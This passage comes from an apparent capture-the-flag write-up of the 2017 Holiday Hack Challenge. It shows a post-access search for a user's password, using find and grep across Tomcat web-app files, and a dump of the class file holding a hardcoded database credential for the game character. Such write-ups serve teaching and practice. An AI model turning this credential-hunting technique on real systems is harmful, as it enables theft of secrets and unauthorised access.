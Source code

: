 ```bash
grep: /proc/52/stack: Permission denied
grep: /proc/52/io: Permission denied
grep: /proc/52/timerslack_ns: Operation not permitted
/usr/bin/find: ‘/proc/54/task/54/fd’: Permission denied
/usr/bin/find: ‘/proc/54/task/54/fdinfo’: Permission denied
/usr/bin/find: ‘/proc/54/task/54/ns’: Permission denied
...
```

I decided to check some of the hints I had unlocked and found the one that was relevant to me under the [Stockings page](https://2017.holidayhackchallenge.com/stocking) on the challenge website

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge01-hint8.jpg" />

The key things I took from this chucky bit of info was that:

* **Alabaster Snowball** has probably put his password in a config file for the website
* The website config files or possibly another service like **FTP** or a **database** might be hiding his password.

I went ahead and checked the /opt/ directory for what 3rd party software of services have been installed, and was excited to see `apache-tomcat` listed there along with the jre (Java Runtime Environment).

```bash
alabaster_snowball@l2s:/tmp/asnow.SC6mOMPUGRwo4KRcsJSwL7w0$ cd /opt
cd /opt

alabaster_snowball@l2s:/opt$ ls -al

ls -al
total 16
drwxr-xr-x  4 root               root               4096 Oct 13 01:47 .
drwxr-xr-x 24 root               root               4096 Jan  9 08:02 ..
drwxrwxrwx  9 alabaster_snowball alabaster_snowball 4096 Nov 29 14:42 apache-tomcat
drwxrwxrwx  6 alabaster_snowball alabaster_snowball 4096 Oct 12 14:48 jre
```

I ran the same command I did before, now with a limited search term on the `/opt/apache-tomcat` directory and got a hit!

```bash
alabaster_snowball@l2s:~$ /usr/bin/find /opt/apache-tomcat -type f -exec grep -l "alabaster_snowball" {} \;
<at -type f -exec grep -l "alabaster_snowball" {} \;

/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class
```

I opened up the `/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class` file and found the following lines revealing Alabasters password

```bash
alabaster_snowball@l2s:~$ cat /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class

<-INF/classes/org/demo/rest/example/OrderMySql.class
    public class Connect {
            final String host = "localhost";
            final String username = "alabaster_snowball";
            final String password = "stream_unhappy_buy_loss";
            String connectionURL = "jdbc:mysql://" + host + ":3306/db?user=;password=";
            Connection connection = null;
            Statement statement = null;
```
